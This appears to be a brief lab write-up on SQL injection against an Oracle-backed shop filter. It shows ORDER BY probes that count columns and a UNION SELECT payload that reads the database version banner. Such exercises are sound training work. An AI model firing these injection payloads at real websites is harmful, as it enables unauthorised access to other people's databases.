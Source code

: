 #### As usual, we start with enumerating the no. of columns.
```
/filter?category=Accessories' ORDER BY 1--                                    #200 OK
/filter?category=Accessories' ORDER BY 2--                                    #200 OK
/filter?category=Accessories' ORDER BY 3--                                    #Error response 
```

#### Now that we know there are two columns, we do a UNION injection to retrieve the oracledb version banner
```
/filter?category=Accessories' union select banner,null from v$version--
```

### Results

![image](https://user-images.githubusercontent.com/86168235/125515182-6bca7985-8cbb-4491-9526-da9090c947cb.png)
